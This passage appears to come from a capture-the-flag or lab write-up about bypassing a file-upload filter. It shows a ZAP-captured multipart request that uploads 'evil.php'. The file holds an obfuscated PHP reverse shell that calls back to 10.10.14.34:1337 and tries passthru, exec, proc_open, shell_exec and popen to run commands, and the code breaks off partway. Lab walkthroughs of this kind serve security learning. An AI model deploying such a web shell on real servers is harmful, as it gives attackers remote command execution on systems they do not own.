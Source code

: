 And try an upload, which returns `Invalid file`.

This is expected as the form specifies the upload must be in image format.

I go to ZAP to get the details, the Request data from the latest edit page is:

```
-----------------------------6880877471789511041406832871
Content-Disposition: form-data; name="file"; filename="evil.php"
Content-Type: application/x-php

    /*<?php /**/
      @error_reporting(0);
      @set_time_limit(0); @ignore_user_abort(1); @ini_set('max_execution_time',0);
      $dis=@ini_get('disable_functions');
      if(!empty($dis)){
        $dis=preg_replace('/[, ]+/', ',', $dis);
        $dis=explode(',', $dis);
        $dis=array_map('trim', $dis);
      }else{
        $dis=array();
      }
      
    $ipaddr='10.10.14.34';
    $port=1337;

    if(!function_exists('CkLhPZUPboOwI')){
      function CkLhPZUPboOwI($c){
        global $dis;
        
      if (FALSE !== strpos(strtolower(PHP_OS), 'win' )) {
        $c=$c." 2>&1\n";
      }
      $EPWc='is_callable';
      $JZlmOv='in_array';
      
      if($EPWc('passthru')and!$JZlmOv('passthru',$dis)){
        ob_start();
        passthru($c);
        $o=ob_get_contents();
        ob_end_clean();
      }else
      if($EPWc('exec')and!$JZlmOv('exec',$dis)){
        $o=array();
        exec($c,$o);
        $o=join(chr(10),$o).chr(10);
      }else
      if($EPWc('proc_open')and!$JZlmOv('proc_open',$dis)){
        $handle=proc_open($c,array(array('pipe','r'),array('pipe','w'),array('pipe','w')),$pipes);
        $o=NULL;
        while(!feof($pipes[1])){
          $o.=fread($pipes[1],1024);
        }
        @proc_close($handle);
      }else
      if($EPWc('shell_exec')and!$JZlmOv('shell_exec',$dis)){
        $o=shell_exec($c);
      }else
      if($EPWc('popen')and!$JZlmOv('popen',$dis)){
        $fp=popen($c,'r');
        $o=NULL;
        if(is_resource($fp)){
          while(!feof($fp)){
            $o.=fread($fp,1024);
          }
```
